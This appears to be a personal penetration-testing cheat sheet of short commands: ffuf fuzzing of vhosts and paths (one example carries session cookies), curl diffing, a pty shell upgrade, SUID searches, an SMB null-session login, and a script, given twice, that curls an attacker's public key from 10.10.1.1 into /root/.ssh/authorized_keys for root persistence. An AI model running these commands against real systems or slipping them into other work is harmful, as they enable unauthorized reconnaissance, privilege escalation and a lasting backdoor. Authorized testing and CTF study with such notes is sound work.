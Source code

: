 VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```

Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

Fuzz content with cookies
```
ffuf -w Documents/fuzz/content_discovery_all.txt -b "JSESSIONID=weggejorist; BIGipServertest.domain.ondemand.com=weggejorist/wkJjIarIpdsw=; slo_regular_domains_eu1_ij1a2ql5iw_ij1ql5iw=weggejorist; JTENANTSESSIONID_ij1a2ql5iw=sRiYncosfVGnaRZ%2BpN3%2APj2zUuzsvmPcIT8%3D; dpd.sessionTimeout.start=weggejorist" -u https://weggejorist.domain.com/dpd-web/FUZZ
```

Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```

PTY
```
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
```

Process tree
```
ps -ef --forest 
```

SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Simple HTTP python
```
python3 -m http.server 8000
```

SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
SMBclient null sessions
smbclient //10.129.173.93/support-tools -U " "%" "
